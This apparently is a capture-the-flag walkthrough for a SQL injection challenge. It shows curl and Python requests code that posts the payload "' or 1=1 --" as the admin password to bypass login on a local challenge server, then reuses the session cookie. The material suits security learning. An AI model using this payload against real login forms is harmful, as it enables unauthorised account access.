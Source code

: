 # SQLi 2

#### Send a request with the guest login. 

```curl -v -d “login-name=guest&pword=password” http://challenge.localhost:80/auth```

----------------------------------------

#### Same as last challenge, cookie and redirect. However, the password bypass no longer works. Since the request is expecting more after the injection, just need to comment that out using -- :

```curl -c cookie -d “login-name=admin&pword=‘ or 1=1 --“```

--------------------------------------

#### Rerun with cookie:

```curl -L -b cookie "http://challenge.localhost:80/auth"```

---------------------------------------

#### Or the python version, set it up to be reusable:
```python
import requests

path = “/auth”
url = f”http://challenge.localhost{path}”

data = {
“login-name”: “admin”,
“pword”: “' or 1=1 --”
}

r = requests.post(url=url, data=data)
print(r.text)
```
```python3 requesting.py```

------------------------------------------

#### Or in terminal:

```Python```
```
>>> import requests
>>> url = "http://challenge.localhost/auth"
>>> data = {"login-name":"admin", "pword":"' or 1=1 --"}
>>> r = requests.post(url=url, data=data)
>>> print(r.text)
```
